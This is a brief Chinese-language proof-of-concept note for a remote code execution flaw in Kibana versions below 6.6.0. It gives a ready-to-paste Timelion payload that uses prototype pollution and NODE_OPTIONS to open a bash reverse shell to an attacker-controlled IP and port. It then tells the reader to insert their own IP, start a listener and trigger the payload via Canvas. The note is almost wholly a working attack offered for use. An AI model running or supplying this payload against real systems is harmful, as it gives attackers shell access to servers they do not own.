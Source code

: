 影響版本
--------

kibana\<6.6.0

POC
---

將POC裡的反鏈IP地址換成自己的，然後在目標機器上的 Timelion 選項下將以下 POC 粘貼進去，點擊 Run 運行

    .es(*).props(label.__proto__.env.AAAA='require("child_process").exec("bash -i >& /dev/tcp/10.10.20.166/8989 0>&1");process.exit()//')
    .props(label.__proto__.env.NODE_OPTIONS='--require /proc/self/environ')

攻擊機器开启监听，点击 Canvas 即可觸發漏洞。
